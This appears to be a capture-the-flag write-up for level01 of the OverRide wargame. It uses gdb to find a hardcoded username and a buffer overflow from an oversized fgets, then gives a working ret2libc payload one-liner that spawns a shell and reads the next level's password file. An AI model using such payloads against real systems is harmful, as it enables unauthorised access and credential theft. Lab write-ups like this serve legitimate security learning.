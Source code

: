 ## Analyse

```sh
(gdb) x/50wx  0x0804a020
0x804a020 <stdin@@GLIBC_2.0>:   0xf7fcfac0      0x00000000      0x00000000      0x00000000
0x804a030:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a040 <a_user_name>:        0x00000000      0x00000000      0x00000000      0x00000000
0x804a050 <a_user_name+16>:     0x00000000      0x00000000      0x00000000      0x00000000
```
> The global a_user_name is of size 16

On this call :

`0x08048574 <+164>:   call   0x8048370 <fgets@plt>`

We are setting the input of `0x100` in the buffer of `0x10` of the global.

So we can overflow with this call but there is a conditon just ahead of that and we have to enter in.

```sh
cmpl   $0x0,0x5c(%esp)
0x0804853b <+107>:   je     0x8048550 <main+128>
```
> Compare the return of verify_user_name

So we have to find a valid username, to do that we just have to set a break point in verify_user_name were the parameter is compare with the username

`0x0804848b <+39>:    repz cmpsb %es:(%edi),%ds:(%esi)`
> %edi == "dat_wil"

```sh
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
```

So we got access to the vulnerable input 

With a simple pattern we can find that the `offset is 80`

## Exploit

We getting a shell with the ret2lic method :

- offset of 80
- system address
- exit address
- "/bin/bash" address

```sh
 level01@OverRide:~$ (python -c "print('dat_wil\n'+'A'*80+'\xd0\xae\xe6\xf7\x70\xeb\xe5\xf7\xec\x97\xf8\xf7\n')"; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

